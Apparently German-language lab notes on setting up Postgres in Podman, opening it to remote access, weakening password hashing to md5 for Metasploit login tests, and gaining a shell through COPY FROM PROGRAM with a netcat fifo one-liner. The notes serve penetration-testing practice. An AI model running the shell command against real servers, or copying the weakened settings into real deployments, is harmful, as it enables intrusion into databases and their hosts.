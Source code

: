 Postgres

# Konfiguration


## Podman Container

lokales Environment-File erzeugen

~/.env:

```
export POSTGRES_PASSWORD=""
export POSTGRES_USER="analyzer"
export POSTGRES_DB="sanalyzer"
export POSTGRES_INITDB_ARGS="--auth-host=scram-sha-256"
export POSTGRES_HOST_AUTH_METHOD="scram-sha-256"
```

compose.yaml:
```
# Use postgres/example user/password credentials

services:

  db:
    image: postgres
    restart: always
    # set shared memory limit when using docker compose
    shm_size: 128mb
    # or set shared memory limit when deploy via swarm stack
    #volumes:
    #  - type: tmpfs
    #    target: /dev/shm
    #    tmpfs:
    #      size: 134217728 # 128*2^20 bytes = 128Mb
    environment: 
      POSTGRES_PASSWORD: ${POSTGRES_PASSWORD}
      POSTGRES_USER: ${POSTGRES_USER}
      POSTGRES_DB: ${POSTGRES_DB}
      POSTGRES_HOST_AUTH_METHOD: ${POSTGRES_HOST_AUTH_METHOD}
      POSTGRES_INITDB_ARGS: ${POSTGRES_INITDB_ARGS}


  adminer:
    image: adminer
    restart: always
    ports:
      - 8080:8080
```

Container starten mit: `p compose up -d`

Adminer läuft auf Port 8080.




## Remote Access ermöglichen

1. /etc/postgresql/14/main/postgresql.conf

```
    # Listen Adresse auf alle Interfaces setzen
      listen_addresses = '*' 

    # password_encryption
    password_encryption = md5    # scram-sha-256 or md5

    *Password Encryption sollte man auf dem default-Wert "scram-sha-256" lassen. Für metasploit Tests kann man das auf 
    md5 setzen. Wenn vorher aber User/Role mit scram-sha-256 angelegt wurden, sind die Passwörter mit dem Verfahren 
    verschlüsselt worden. Daher muss man die Passwörter neu vergeben, ansonsten liefert Metasploit folgende Fehlermeldung 
    beim exploit "scanner/postgres/postgres_login"*

    .. code-block:: shell

        [-] <IP>:5432 - LOGIN FAILED: admin:admin@mydb (Incorrect: unknown auth type '10' with buffer content:
        52 00 00 00 17 00 00 00 0a 53 43 52 41 4d 2d 53    |R........SCRAM-S|
        48 41 2d 32 35 36 00 00                            |HA-256..|
    
```

2. /etc/postgresql/14/main/pg_hba.conf

```   
    # Netzwerkbereich zulassen, der zugreifen darf
      host    all             all             <IP Netz>/24        md5
```

3. systemctl restart postgresql
4. lsof -i:5432
5. less /var/log/postgresql/postgresql-14-main.log
6. psql -h <IP> -p 5432 -d <DB> -U <user> -W


## Command Execution with COPY Command

Quelle: `<https://medium.com/r3d-buck3t/command-execution-with-postgresql-copy-command-a79aef9c2767>`_

In diesem Szenario erfolgt eine remote Anmeldung an die postgres-Datenbank; es wird ein Listener eingerichtet, um beliebige
Befehle auf dem Zielhost abzusetzen. 

1. Anmelden an Datenbanken mit Admin-User::
   
    psql -h <Zielhost> -U <User> -d <Datenbank> -W

2. Remote Listener einrichten::
   
    COPY shell FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc -l <Zielhost> <PORT> > /tmp/f';

3. in einer neuen Shell können dann bash Befehle abgesetzt werden::
   
    nc <Zielhost> <PORT> 
   
   Befehle werden im Kontext des postgres-Serverprocesses ausgeführt.




